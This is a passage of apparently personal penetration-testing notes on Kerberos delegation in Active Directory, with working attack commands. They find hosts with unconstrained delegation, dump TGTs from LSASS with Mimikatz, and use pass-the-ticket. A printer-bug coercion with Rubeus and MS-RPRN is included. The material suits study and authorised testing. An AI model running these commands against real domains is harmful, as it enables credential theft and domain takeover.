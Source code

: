 - if an error occurs when trying to set an SPN for a user, it may be because the SPN already exists

## Kerberos Delegation

- delegation allows reuse of credentials to access resources hosted on a different server
- delegation on DC is not blocked by default

Suppose a user wants to access a web server:

1. User provides creds to DC and DC returns a TGT
2. User requests a TGS for web service, and DC provides a TGS
3. User sends TGS and TGT to web server
    - TGT embedded inside TGS with unconstrained delegation
4. Web server uses user’s TGT to request a TGS from the DC for the database server
5. Web server service account connects to database service as the user

### Three Types of Kerberos Delegation

1. **Unconstrained Delegation**
    - server can access any service on any computer on behalf of that user
    - note that DCs will always show up as unconstrained and is not an interesting finding
    - TGT stored in LSASS, so with admin privileges on compromised server, you can extract any user’s TGT that authenticated to service
        - great way to privesc, especially when domain admins connect to the service

```powershell
# Find computers with unconstrained delegation enabled
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}

# Extract TGT from compromised service
Invoke-Mimikatz -Command '"sekurlsa::tickets"' ## Add /export to save to disk

# Perform Pass-the-Ticket attack
Invoke-Mimikatz -Command '"kerberos::ptt <TGT_FILE>"'
```

Printer Bug

- abuses MS-RPRN to force any machine running the Spooler service to connect to an arbitrary machine
- can be abused by any domain user

```powershell
# Monitor TGTs
Rubeus.exe monitor /interval:5 /nowrap

# Force target machine to connect to the owned machine
MS-RPRN.exe \\target.0xd4y_notes.local \\owned.0xd4y_notes.local

# Pass the b64-encoded ticket
Rubeus.exe ptt /ticket:<b64_ticket>
```

- may result in “RPC server is unavailable” error, but it may have worked (check Rubeus)
- works even if DAs are not allowed to connect to non-DC machines because the domain controller account can be used to abuse this bug
1. **Constrained Delegation**
    - server only allowed to access specific services on specific computers on behalf of user
    